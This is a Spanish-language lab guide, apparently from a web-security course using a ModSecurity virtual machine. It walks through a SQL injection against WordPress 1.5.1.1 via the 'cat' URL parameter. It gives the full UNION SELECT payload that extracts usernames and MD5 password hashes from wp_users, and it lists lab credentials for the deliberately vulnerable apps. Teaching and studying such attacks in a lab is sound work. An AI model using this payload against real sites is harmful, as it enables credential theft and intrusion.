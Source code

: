         modsecurity:~# leafpad /var/www/html/foro/login.php &
                

### Inyección SQL en Wordpress 1.5.1.1

Ejemplo de vulnerabilidad en una versión antigua del software para blogs
.

Los ataques de Inyección SQL no tienen por que limitarse al acceso a
través de campos de formulario. En este caso el código SQL inyectado se
incluye en la barra de direcciones (en un parámetro de la URL que se
envía en la petición HTTP GET)

1.  Abrir desde el navegador de la máquina `atacante` la url del blog:
    `http://modsecurity.ssi.net/wordpress`

    -   No es necesario logearse para realizar el ejemplo, pero en caso
        necesario el usuario y el login de este blog son:

                      usuario: admin
                      passwd: secreto
                    

2.  Probaremos la inyección SQL sobre los parámetros de la consulta de
    categorias (`http://modsecurity.ssi.net/wordpress/?cat=1`)

    1.  Poner en barra de direcciones: (sin espacios)

            http://modsecurity.ssi.net/wordpress/index.php?cat=999%20UNION%20SELECT%20null,CONCAT(CHAR(58),user_pass,CHAR(58),user_login,CHAR(58)),null,null,null%20FROM%20wp_users

        Nota: puede copiarse y pegarse esta URL desde el archivo
        `/root/aplicaciones_vulnerables/wordpress/url-wordpress.txt` de
        la máquina virtual `modsecurity`

    2.  Se mostrará en la columna derecha (zona de lista de categorías)
        el par:

              admin:e201994dca9320fc94336603b1cfc970

    3.  Vemos el contenido de la primera fila de la tabla de usuarios,
        con nombre de usuario `admin` y el md5 de su password

        Para comprobar que ese es efectivamente es el resumen md5 de la
        cadena `secreto`:

        -   Buscar la cadena `e201994dca9320fc94336603b1cfc970` en
            google (sale asociado a la palabra ”secreto”)

        -   Ejecutar en línea de comandos: `echo -n "secreto" | md5sum`

Aplicaciones vulnerables educativas
-----------------------------------

En la máquina virtual `modsecurity` se encuentra instaladas tres
aplicaciones vulnerables (2 en PHP y 1 en Java) diseñadas para
experimentar con ellas.

Damm Vulnerable Web App
:   disponible en `http://modsecurity.ssi.net/DVWA`, con login `admin` y
    password `password`
